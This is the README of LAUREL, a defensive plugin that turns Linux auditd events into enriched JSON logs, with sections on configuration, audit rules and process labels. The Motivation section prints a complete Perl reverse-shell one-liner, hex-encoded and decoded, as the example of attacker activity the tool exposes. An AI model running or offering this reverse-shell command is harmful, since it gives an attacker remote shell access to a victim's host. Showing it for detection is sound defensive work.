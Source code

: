 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/hillu/laurel/tree/v0.4.1).

## Motivation

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. The event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing, transforming, enriching them, and writing them out as a separate JSON-based log. All information that was part of the original audit log is kept intact. _auditd(8)_ is not replaced as the consumer of audit messages from the Linux kernel. Instead, _auditd's_ plugin interface (previously called _"audisp"_) is used, therefore _LAUREL.. can peacefully coexist with other consumers of audit events (e.g. some EDR products).

The chapter [_LAUREL_ installation instructions](INSTALL.md) contains instructions on how to set up and configure usage of the plugin.

Details about the log format are described in the [JSON-based log format](json-format.md) chapter.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) chapter for details.

## Audit rules

Currently, _LAUREL_ comes with no explicit recommendations on what to log. This is left as an exercise to the user. A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>.

_LAUREL_ will currently work best if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the parent of the process that caused the event. If available, `id` points to the message corresponding to the last `execve` syscall for this process:

``` json
"PARENT_INFO": {
  "ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
}
```

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as keys to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out noise.

Consider the following audit rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
``` ini
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting a single event.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.

